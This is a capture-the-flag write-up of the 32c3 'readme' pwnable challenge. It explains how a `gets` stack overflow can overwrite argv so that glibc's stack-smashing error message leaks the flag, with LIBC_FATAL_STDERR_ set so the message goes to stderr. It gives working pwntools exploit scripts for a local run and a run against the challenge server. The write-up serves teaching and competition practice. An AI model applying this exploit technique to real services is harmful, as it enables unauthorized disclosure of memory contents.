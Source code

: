 ```yaml
---
layout: post
title: 32c3 Readme
comments: true
category: ctf
tags: ctf, 32c3, pwnable, glibc
---
```


This is a write-up of the readme challenge from the 32c3 CTF


## The Challenge

This was a pwnable binary with with the flag baked into it, which you could see if you ran:
{% highlight bash %}
$ strings readme.bin  | grep 32C3
32C3_TheServerHasTheFlagHere...
{% endhighlight %}

The flag is located at `0x600d20` in the `.data` section.

The challenge was very simple, it was a service witch `gets` your name onto the stack,
and then it asks you to over write the flag at `0x600d20`


## The Solution


First of all the flag is mapped into memory twice, because of how elf works it is also located in read-only memory at `0x400d20` but only the flag in the `.data` section gets overwritten.

So locally we could get it printed simply by smashing our stack all the way upto `argv`,
and then let `_stack_chk_fail` print it for us.

{% highlight python %}
from pwn import *

flag_addr = 0x400d20

r = process("./readme.bin")
r.recvuntil("What's your name? ")
r.sendline(p64(flag_addr)*80)
r.sendline("THIS OVERWRITES THE FLAG")
r.recvuntil("*** stack smashing detected ***: ")
log.info("The flag is: %s" % r.recvuntil(" ").strip())
{% endhighlight %}

which prints when executed:

{% highlight bash %}
$ python doit.py
[+] Starting program './readme.bin': Done
[*] The flag is: 32C3_TheServerHasTheFlagHere...
[*] Program './readme.bin' stopped with exit code -6
{% endhighlight %}

however this does not work remotely, this is becuase `_stack_chk_fail` calls `__fortify_fail` which calls `__lib_message` which does this:

{% highlight c %}
void
__libc_message (int do_abort, const char *fmt, ...)
{
  va_list ap; 
  int fd = -1; 

  va_start (ap, fmt);

  /* Open a descriptor for /dev/tty unless the user explicitly
     requests errors on standard error.  */
  const char *on_2 = __libc_secure_getenv ("LIBC_FATAL_STDERR_");
  if (on_2 == NULL || *on_2 == '\0')
    fd = open_not_cancel_2 (_PATH_TTY, O_RDWR | O_NOCTTY | O_NDELAY);

  if (fd == -1) 
    fd = STDERR_FILENO;

  // then prints stuff and crashes
}
{% endhighlight %}

which means that we only need to set `LIBC_FATAL_STDERR_` and the flag will get printed over `stderr` instead of `/dev/tty`.

So this is the final exploit:
{% highlight python %}
from pwn import *

env_addr = 0x600d20
flag_addr = 0x400d20

r = remote("136.243.194.62", 1024)
r.recvuntil("What's your name? ")
r.sendline(p64(flag_addr)*80 + p64(env_addr)*20)
r.sendline("LIBC_FATAL_STDERR_=1")
r.recvuntil("*** stack smashing detected ***: ")
log.info("The flag is: %s" % r.recvuntil(" ").strip())
{% endhighlight %}

and we then finally have the flag:

{% highlight bash %}
$ python doit.py
[+] Opening connection to 136.243.194.62 on port 1024: Done
[*] The flag is: 32C3_ELF_caN_b3_pre7ty_we!rd...
[*] Closed connection to 136.243.194.62 port 1024
{% endhighlight %}

